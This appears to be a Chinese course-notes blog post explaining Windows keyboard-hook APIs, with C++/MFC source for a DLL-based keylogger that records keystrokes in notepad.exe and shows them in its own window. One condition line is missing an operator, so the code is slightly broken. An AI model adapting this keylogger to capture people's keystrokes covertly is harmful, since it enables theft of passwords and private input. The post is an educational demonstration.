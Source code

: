 ## 0x01 前言
这是我一门课程的期末答辩，做做笔记
## 0x02 相关API
### SetWindowsHookEx
将应用程序定义的钩子过程安装到钩子链中的，安装一个挂钩程序来监视系统的某些类型的事件
```c
HHOOK WINAPI SetWindowsHookEx(
  _In_ int       idHook,
  _In_ HOOKPROC  lpfn,
  _In_ HINSTANCE hMod,
  _In_ DWORD     dwThreadId
);
```
参数：
idHook: 要安装的挂钩过程的类型，这里等于WH_KEYBOARD。监视按键消息。
lpfn: 指明窗口准备处理一个消息时系统应该调用的函数地址。
hMod: 指明包含lpfn函数的dll。
dwThreadId: 挂钩过程与之关联的线程的标识符。线程标识符为0，表示挂钩过程应与与调用线程相同的桌面中的所有线程相关联

如果函数执行成功，返回挂钩过程的句柄。失败返回NULL。

### KeyboardProc
处理键盘消息的回调函数，原型：
```c
LRESULT CALLBACK KeyboardProc(
  _In_ int    code,
  _In_ WPARAM wParam,
  _In_ LPARAM lParam
);
```
参数：
code：确定如何处理消息的代码。如果代码小于零，挂钩过程必须将消息传递给CallNextHookEx函数，无需进一步处理，并应返回CallNextHookEx返回的值。 
wParam：生成按键消息的键的虚拟按键代码
lParam：重复计数，扫描码，扩展密钥标志，上下文代码，先前的密钥状态标志和转换状态标志。 

返回值：
如果code参数小于0，则必须返回CallNextHookEx的返回值。
如果code大于或等于零，并且挂接过程没有处理该消息，应该调用CallNextHookEx并返回返回的值;否则其他安装了WH_KEYBOARD钩子的应用程序将不会收到钩子通知，并可能会导致错误的行为。 如果挂钩过程处理了消息，它可能返回一个非零值，以防止系统将消息传递给其他钩链或目标窗口过程。

### CallNextHookEx
将钩子信息传递给当前钩子链中的下一个钩子过程。 挂钩过程可以在处理挂钩信息之前或之后调用此函数。
```c
LRESULT WINAPI CallNextHookEx(
  _In_opt_ HHOOK  hhk,
  _In_     int    nCode,
  _In_     WPARAM wParam,
  _In_     LPARAM lParam
);
```
### UnhookWindowsHookEx
卸载SetWindowsHook安装的钩子
```c
BOOL WINAPI UnhookWindowsHookEx(
  _In_ HHOOK hhk
);
```

## 0x02 程序编写

首先要写一个dll，SetWindowsHookEx会把dll注入目标进程。
包括一个获取模块句柄的函数
```cpp
HMODULE WINAPI ModuleFromAddress(PVOID pv)
{
	MEMORY_BASIC_INFORMATION mbi;
	if (::VirtualQuery(pv, &mbi, sizeof(mbi)) != 0)
	{
		return (HMODULE)mbi.AllocationBase;
	}
	else
	{
		return NULL;
	}
}
```
创建钩子
```cpp
BOOL HookStart()
{
	BOOL bol = 1;
	HookMsg = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, ModuleFromAddress(KeyboardProc), 0);
	if (HookMsg == NULL)
	{
		bol = 0;
	}
	return bol;
}
```
卸载钩子
```cpp
void HookStop()
{
	UnhookWindowsHookEx(HookMsg);
}
```
处理消息
```
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	CHAR szBuf[128];
	HDC hdc;
	static int c = 0;
	size_t cch;
	HRESULT hResult;
	char szPath[MAX_PATH] = { 0 };
	char *p = NULL;
	GetModuleFileNameA(NULL, szPath, MAX_PATH);
	p = strrchr(szPath, '\\');
	
	if (nCode >= 0)     
	{
        if (!(lParam & 0x80000000)!_stricmp(p+1,PROCESS_NAME))  
        //代表按键松开，具体参考MSDN
        //这里过滤了一下要记录的程序名，PROCESS_NAME在代码开头被定义为"notepad.exe"
		{
			HWND hWnd = ::FindWindow(NULL, "键盘记录器");
			PostMessage(hWnd, HM_KEY, wParam, lParam);
			//给主窗口发送消息
			//return 1;
			//如果这里注释去掉，将拦截用户键盘消息，直到卸载钩子
		}
	}
	return CallNextHookEx(HookMsg, nCode, wParam, lParam);
}
```
新建MFC工程，主程序无非就是调用dll里面的函数了。注意要在BEGIN_MESSAGE_MAP里添加消息处理ON_MESSAGE(HM_KEY, OnHookKey)
MFC里主要代码如下：
```
void CMyHookDlg::OnBnClickedButton1()
{
	// TODO: 在此添加控件通知处理程序代码
	BOOL bol;
	bol = HookStart();
	if (!bol)
	{
		AfxMessageBox("安装失败");
	}
}


void CMyHookDlg::OnBnClickedButton2()
{
	// TODO: 在此添加控件通知处理程序代码
	HookStop();
}

LRESULT CMyHookDlg::OnHookKey(WPARAM wParam, LPARAM lParam)
{
	char szKey[80];
	::GetKeyNameText(lParam, szKey, 80);
	HWND hWnd = NULL;
	CString strItem;
	strItem.Format(" 用户按键：%s\r\n", szKey);
	// 添加到编辑框中
	CString strEdit;
	GetDlgItem(IDC_EDIT1)->GetWindowText(strEdit);
	GetDlgItem(IDC_EDIT1)->SetWindowText( strEdit+strItem);
	return 0;
}
```
